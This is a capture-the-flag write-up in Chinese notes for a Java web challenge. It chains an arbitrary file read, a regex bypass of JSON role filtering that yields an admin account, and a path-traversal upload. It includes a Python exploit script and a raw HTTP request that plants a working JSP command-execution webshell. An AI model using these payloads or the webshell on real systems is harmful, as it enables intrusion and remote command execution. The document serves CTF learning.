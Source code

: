 tags:: [[CTF/JSON]]

-
- # 思路
	- 利用任意文件读取漏洞得到源码
	  collapsed:: true
		- `/home/download`处有任意文件读取
		- 通过 ((641ae855-b000-4991-80f0-8172ecb29684)) 可以知道web.xml以及所有类的路径，下载即可得到源码
	- 利用不正确的JSON解析方式篡改role字段，注册admin权限账户
	  collapsed:: true
		- 题目会将传入的JSON中的空格去除，然后通过正则表达式替换JSON中的role字段
			- ```java
			  // 获取上传的JSON，将空格去除，将单引号转换成双引号
			  String var = req.getParameter("data").replaceAll(" ", "").replace("'", "\"");
			  // 用regex匹配其中的role字段
			  Matcher matcher = Pattern.compile("\"role\":\"(.*?)\"").matcher(var);
			  while (matcher.find()) {
			    role = matcher.group();
			  }
			  // 变量role是其中的最后一个结果
			  if (!StringUtils.isNullOrEmpty(role)) {
			    // 替换role为guest
			    person = (Person) gson.fromJson(var.replace(role, "\"role\":\"guest\""), Person.class);
			  } else {
			    person = (Person) gson.fromJson(var, Person.class);
			    person.setRole("guest");
			  }
			  ```
		- 如果我们可以让regex匹配不到我们的role字段，就可以将role设置为admin而不被替换
		- 我们可以利用添加tab或者添加`/**/`注释的方式绕过regex
		- payload
			- ```python
			  name = "114514"
			  print(name)
			  r = base_post("http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81/register", data = {
			      "data": '{"username":"USERNAME","password":"aaa","role":"guest","role" :"admin"}'.replace("USERNAME", name).replace(" ", "\t")
			  })
			  r = base_post("http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81/login", data = {
			      "data": '{"username":"USERNAME","password":"aaa"}'.replace("USERNAME", name)
			  })
			  r = base_get("http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81/home")
			  print("guest" in r.text, "admin" in r.text)
			  ```
	- 利用上传文件过滤的逻辑漏洞
		- 源码
			- ```java
			  if (checkExt(ext) || checkContent(item.getInputStream())) {
			    req.setAttribute("error", "upload failed");
			    req.getRequestDispatcher("../WEB-INF/upload.jsp").forward(req, resp);
			  }
			  //                  WEB-INF/upload/{name}{ext}
			  item.write(new File(uploadPath + File.separator + name + ext));
			  req.setAttribute("error", "upload success!");
			  ```
		- 可以看到上传文件后即使文件有害也不会删除文件
		- 我们可以直接往static文件夹上传jsp webshell
		- payload参考[[CTF/JSP]]
		- payload
		  collapsed:: true
			- ```http
			  POST /home/upload HTTP/1.1
			  Host: e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81
			  Content-Length: 1101
			  Cache-Control: max-age=0
			  Upgrade-Insecure-Requests: 1
			  Origin: http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81
			  Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryB7pWEr2icpXgE8L5
			  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36
			  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
			  Referer: http://e6fd95ff-9dee-4a42-98ce-a8c096d72e0b.node4.buuoj.cn:81/home/upload
			  Accept-Encoding: gzip, deflate
			  Accept-Language: zh-CN,zh;q=0.9
			  Cookie: JSESSIONID=893CB3940693AEEE77397D96D06F9CF4
			  Connection: close
			  
			  ------WebKitFormBoundaryB7pWEr2icpXgE8L5
			  Content-Disposition: form-data; name="file"; filename="../../static/b.jsp"
			  Content-Type: application/octet-stream
			  
			  <%@ page import="java.io.*" %>
			  <%
			  String cmd = request.getParameter("cmd");
			  String output = "";
			  if(cmd != null) {
			      String s = null;
			      try {
			          Process p = Runtime.getRuntime().exec(cmd);
			          BufferedReader stdInput = new BufferedReader(new 
			  InputStreamReader(p.getInputStream()));
			          BufferedReader stdError = new BufferedReader(new 
			  InputStreamReader(p.getErrorStream()));
			          while ((s = stdInput.readLine()) != null) {
			              output += s+"\n";
			          }
			          while ((s = stdError.readLine()) != null) {
			              output += s+"\n";
			          }
			      }
			      catch (IOException e) {
			          e.printStackTrace();
			      }
			  }
			  %>
			  <html>
			  <head>
			  <title>JSP Webshell</title>
			  </head>
			  <body>
			  <form method="GET" action="<%=request.getRequestURI()%>">
			  <input type="text" name="cmd" size="80">
			  <input type="submit" value="Execute">
			  </form>
			  <pre>
			  <%=output %>
			  </pre>
			  </body>
			  </html>
			  
			  ------WebKitFormBoundaryB7pWEr2icpXgE8L5--
			  
			  ```
	-